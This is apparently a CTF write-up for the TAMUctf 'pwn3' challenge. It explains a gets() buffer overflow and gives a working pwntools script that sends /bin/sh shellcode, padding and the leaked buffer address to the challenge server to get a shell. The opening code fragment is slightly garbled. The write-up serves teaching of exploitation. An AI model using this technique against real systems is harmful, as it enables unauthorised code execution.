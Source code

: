 ~~~ java
retn
echo endp

~~~ 


The program here is pretty simple. It gives us an address A, and then read our input that will be stored at this address.

So the goal is to write a shellcode, jump to the given address to execute it.
To do so, we will exploit the `gets(buff)` function with again a bufferoverflow to overwrite EIP with the address given at which is our shellcode.

As the address is not always the same, we will use pwntool to exploit the binary.
This challenge is a great one to start using pwntool as the exploit is pretty simple.

~~~ python

#!/usr/bin/env python2.7
from pwn import *

def parse(text):

    # ugly parsing
    pos = text.find("0x")
    addr = text[pos+2:pos+10]
    addr = int(addr, 16) # leak
    print(addr)

    return p32(addr)

if __name__ == '__main__':

    #e = process("./pwn3")
    e = remote("pwn.tamuctf.com", 4323)

    out = e.recvline()

    addr = parse(out)

    print("[+] Input address: " + addr)

    payload = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' # shellcode /bin/sh
    payload +='A'*281 # fill buffer
    payload += addr

    # execution
    #print(payload)
    print(e.sendline(payload))
    e.interactive()
~~~ 

As I'm not used to pwntool, I did an ugly parsing, a better way to do is to use the recvuntil() function to make the parsing.
